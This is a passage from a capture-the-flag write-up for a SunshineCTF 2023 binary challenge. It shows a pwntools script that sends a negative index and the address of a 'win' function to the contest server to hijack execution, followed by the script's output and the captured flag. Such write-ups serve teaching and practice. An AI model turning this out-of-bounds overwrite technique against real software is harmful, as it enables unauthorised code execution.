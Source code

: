 BOOM! Code execution redirected. Now let's quickly replace `"AAAAAA"` with the memory address of `win`. Let's also write a neat python script to grab the flag for us.
```python
from pwn import *

context.log_level = 'critical'

# p = process('./sunshine')
p = remote('chal.2023.sunshinectf.games', 23003)
elf = ELF('./sunshine')

p.sendline(b'-8')
p.sendline(p64(elf.symbols['win']))

p.recvuntil(b'sun')
flag = p.recvuntil(b'}').decode()
print('FLAG: sun{}'.format(flag) )
```
{: file="exploit.py"}

and run it
```console
$ python exploit.py
FLAG: sun{a_ray_of_sunshine_bouncing_around}
```

and that wraps up this writeup!

### FLAG

`sun{a_ray_of_sunshine_bouncing_around}`

